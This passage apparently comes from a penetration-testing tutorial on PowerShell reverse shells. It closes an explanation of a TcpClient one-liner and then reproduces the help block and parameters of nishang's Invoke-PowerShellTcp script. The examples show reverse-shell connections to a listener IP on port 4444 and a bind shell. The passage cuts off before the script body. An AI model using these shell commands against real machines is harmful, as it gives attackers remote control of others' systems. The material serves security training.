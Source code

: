 ```sh
$client.Close()"
```

This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.

The one-liner we just examined together can also be executed in the form of a PowerShell script (`.ps1`). We can see an example of this by viewing the source code below. This source code is part of the [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) project:

Code: powershell

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
```